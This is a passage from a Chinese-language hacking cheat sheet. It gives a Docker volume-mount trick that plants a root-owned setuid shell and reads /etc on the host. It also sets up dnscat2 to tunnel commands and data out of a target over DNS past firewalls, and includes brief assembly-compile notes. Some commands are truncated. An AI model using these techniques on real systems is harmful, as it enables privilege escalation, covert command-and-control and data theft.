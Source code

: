 
VOLUME [ $WORKDIR ]


WORKDIR $WORKDIR
&lt;&lt; EOF


ek@victum:~$ docker build -t my-docker-image .
ek@victum:~$ docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c \
'cp /bin/sh /stuff &amp;&amp; chown root.root /stuff/sh &amp;&amp; chmod a+s /stuff/sh'
./sh
whoami
# root


ek@victum:~$ docker run -v /etc:/stuff -t my-docker-image /bin/sh -c 'cat /stuff/</pre>


### 61.使用 DNS 隧道绕过防火墙

> 
<pre>// 让数据和命令使用 DNS 隧道传输以绕过防火墙的检查
// dnscat2 支持从目标主机上面上传和下载命令来获取文件、数据和程序


// 服务器 (攻击者)
$ apt-get update
$ apt-get -y install ruby-dev git make g++
$ gem install bundler
$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/server
$ bundle install
$ ruby ./dnscat2.rb
dnscat2&gt; New session established: 16059
dnscat2&gt; session -i 16059


// 客户机 (目标)
// https://downloads.skullsecurity.org/dnscat2/
// https://github.com/lukebaggett/dnscat2-powershell
$ dnscat --host &lt;dnscat server_ip</pre>


### 62.编译 Assemble 代码

> 
<pre>$ nasm -f elf32 simple32.asm -o simple32.o
$ ld -m elf_i386 simple32.o simple32


$ nasm -f elf64 simple.asm -o simple.o
$ ld simple.o -o simple</pre>


### 63.使用非交互 Shell 打入内网
